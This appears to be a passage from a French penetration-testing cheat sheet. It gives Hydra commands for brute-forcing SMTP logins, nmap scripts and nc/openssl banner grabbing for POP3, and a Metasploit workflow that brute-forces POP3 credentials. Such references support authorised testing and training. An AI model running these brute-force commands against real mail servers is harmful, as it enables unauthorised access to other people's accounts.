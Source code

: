 ### Brute Force SMTP avec Hydra
```bash
# Brute force SMTP AUTH
hydra -l admin -P passwords.txt smtp://target

# Avec liste d'utilisateurs
hydra -L users.txt -P passwords.txt smtp://target

# SMTP sur port non-standard
hydra -l admin -P passwords.txt -s 587 smtp://target

# Options recommandées
hydra -L users.txt -P passwords.txt -t 16 -f smtp://target
```

---

## 📥 2. POP3 (Port 110) & POP3S (Port 995) - Énumération & Exploitation

### Scripts Nmap pour POP3
| Script | Description | Usage |
|--------|-------------|-------|
| `pop3-capabilities` | Capacités POP3 | `nmap --script pop3-capabilities target` |
| `pop3-ntlm-info` | Informations NTLM | `nmap --script pop3-ntlm-info target` |
| `pop3-brute` | Brute force POP3 | `nmap --script pop3-brute target` |

### Commandes Nmap POP3
```bash
# Énumération POP3
nmap -p110,995 --script pop3-* target

# Banner grabbing
nc target 110
telnet target 110

# POP3S (SSL)
openssl s_client -connect target:995
```

### Modules Metasploit POP3
| Module | Description | Usage |
|--------|-------------|-------|
| `auxiliary/scanner/pop3/pop3_version` | Version POP3 | `use auxiliary/scanner/pop3/pop3_version` |
| `auxiliary/scanner/pop3/pop3_login` | Brute force POP3 | `use auxiliary/scanner/pop3/pop3_login` |

### Workflow Metasploit POP3
```bash
# 1. Détection version
use auxiliary/scanner/pop3/pop3_version
set RHOSTS target
run

# 2. Brute force
use auxiliary/scanner/pop3/pop3_login
set RHOSTS target
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```